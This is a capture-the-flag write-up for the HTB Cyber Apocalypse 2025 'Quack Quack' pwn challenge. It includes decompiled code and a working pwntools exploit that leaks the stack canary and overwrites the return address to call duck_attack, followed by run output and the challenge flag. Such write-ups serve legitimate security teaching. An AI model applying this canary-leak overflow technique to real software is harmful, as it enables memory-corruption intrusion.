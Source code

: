 # 2025 HTB Cyber Apocalypse - Quack Quack

Simple pwn challenge where we have to overwrite RIP to jump to `duck_attack` function that prints out the flag. The binary had stack canary checks so we first had to leak the canary by specifying "Quack Quack" keywords at the end of the string so the stack canary value gets printed out to stdout. Here is the binary disassembly:

```
  printf("Quack the Duck!\n\n> ");
  fflush(stdout);
  read(0,local_88,0x66);
  pcVar1 = strstr(local_88,"Quack Quack ");
  if (pcVar1 == (char *)0x0) {
    error("Where are your Quack Manners?!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x520);
  }
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ",pcVar1 + 0x20);
  read(0,&local_68,0x6a);
  puts("Did you really expect to win a fight against a Duck?!\n");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
```

Once the stack canary is leaked, we can overwrite RIP to `duck_attack` and win.
```
from pwn import *

e = ELF('quack_quack')

print(e.sym["duck_attack"])

payload = b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQuack Quack "

r = process("quack_quack")
#gdb.attach(r, '''
#set follow-fork-mode child
#break *0x004015c4
#continue
#''')
r.recvuntil(b"> ")
r.sendline(payload)
leak = r.readline()

r.recvuntil(b"> ")

leak = leak.split(b", ready")[0][len(b"Quack Quack "):]
print(leak)

payload = b"B" * 0x58 + b"\x00" + leak[:7] + leak[7:] + b"\x00"*(8-len(leak[7:])) + p64(e.sym["duck_attack"])
r.sendline(payload)
r.interactive()
```

Local execution:
```
$ python3 xpl.py 
[*] '/home/vm/Documents/htbctf/pwn_quack_quack/quack_quack'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./glibc/'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
4199295
[!] Could not find executable 'quack_quack' in $PATH, using './quack_quack' instead
[+] Starting local process './quack_quack': pid 11434
b'"\xe9]B\x826\xd5\xd0\t\xc85\xfc\x7f'
[*] Switching to interactive mode
Did you really expect to win a fight against a Duck?!

HTB{f4k3_fl4g_4_t35t1ng}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Process './quack_quack' stopped with exit code -11 (SIGSEGV) (pid 11434)
```

```
HTB{~c4n4ry_g035_qu4ck_qu4ck~_c2a31fa673b91ec8c1150e79501d3e37}
```
